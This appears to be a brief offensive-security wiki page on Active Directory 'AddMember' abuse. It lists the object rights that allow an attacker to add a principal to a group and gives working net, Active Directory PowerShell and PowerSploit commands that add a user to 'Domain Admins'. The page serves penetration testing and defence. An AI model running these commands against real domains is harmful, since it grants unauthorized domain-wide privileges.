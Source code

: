 # AddMember

This abuse can be carried out when controlling an object that has `AllExtendedRights`, `Self`, `WriteProperty`, `GenericWrite` or `GenericAll` over a target group.

The attacker can add a user/group/computer to a group. This can be achieved with a native command line, with the Active Directory PowerShell module, or with [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Command line ()
net group 'Domain Admins' 'user' /add /domain

# Powershell: Active Directory module
Add-ADGroupMember -Identity 'Domain Admins' -Members 'user'

# Powershell: PowerSploit module
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user'
```

